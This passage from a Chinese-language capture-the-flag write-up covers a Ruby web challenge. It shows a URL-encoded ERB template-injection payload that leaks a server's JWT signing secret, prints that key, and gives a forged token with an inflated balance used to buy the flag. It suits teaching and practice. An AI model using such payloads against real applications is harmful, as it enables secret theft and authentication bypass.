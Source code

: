 可以得到结论

> $\~ 返回最后一次匹配到的内容
>
> $\` 返回最后一次未匹配到内容前面的部分
>
> $'  返回最后一次未匹配到内容后面的部分

得到payload：`GET /work?name=%3c%25%3d%24'%25%3e&do=%3c%25%3d%24'%25%3e%20is%20working&SECRET=`

![](<../.gitbook/assets/image (17) (1) (1) (1).png>)

得到密钥

```
e116342f880734ac2a7b278cf120d847f420a344d98fc55b294c5eb4eae619ee50360e28da770ed194bf743b0dd611187f9ebd79c4c5d98dfbaa72db2d109987
```

jkl改成10000000000000000000000000000重新加密

```
eyJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiJkNmRmOTQwYi1kZWIzLTQ3MGEtOGE3Yy1lYTE5MzRmZWNkMjUiLCJqa2wiOjFlKzI4fQ.hVvQKdiKAVU_i0oEjUPdFyyby_Rx3NWTLzWTQE-mnq4
```

更改cookie再点击`buy flag`，在cookie中返回flag

```ruby
auth << {flag: ENV["FLAG"]}
auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
cookies[:auth] = auth
json({title: "success",message: "jkl is good thing"})
```
